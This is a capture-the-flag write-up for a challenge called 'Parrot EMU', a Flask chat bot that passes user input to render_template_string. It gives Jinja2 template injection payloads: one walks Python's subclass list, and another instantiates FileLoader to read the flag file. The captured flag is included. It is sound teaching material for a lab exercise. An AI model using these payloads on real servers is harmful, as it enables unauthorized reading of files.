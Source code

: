 ```yaml
---
created: 2024-07-06T23:50
updated: 2024-07-07T21:46
title: Parrot EMU
solves: 993
points: 100
description: A template injection chat bot
---
```


```python
try:
	result = render_template_string(user_input)
except Exception as e:
	result = str(e)
```

Well, its template injection time.
## Template Injection

Code inside of templates, have a very limited context, they are missing `globals`.
So we have to find those classes.
### Find Classes
`{{''.__class__.__base__.__subclasses__()}}`
`''.__class__` is the `str` class, `<str>.__base__` is the `object` class, this payload will hence give us all available classes.

```python
# EMU REPLY:
`[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, ...

<class '_frozen_importlib_external.FileLoader'>,  # this is what we want to use
<class '_frozen_importlib_external._NamespacePath'>, 
...
<class 'werkzeug.debug.console.Console'>, <class 'werkzeug.debug.tbtools.Line'>, <class 'werkzeug.debug.tbtools.Traceback'>, <class 'werkzeug.debug.tbtools.Group'>, <class 'werkzeug.debug.tbtools.Frame'>, <class 'werkzeug.debug._ConsoleFrame'>, <class 'werkzeug.debug.DebuggedApplication'>]`
```

We will use `FileLoader` to read our flag.
`a.findIndex(a=>a.includes("File")) = 99`, we have determined that its the 99th item is the subclass list.

## Attack
`{{''.__class__.__base__.__subclasses__()[99]("flag", "flag").get_data("flag")}}`

This constructs a new `FileLoader` instance and reads the flag.

`DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

Simple stuff.
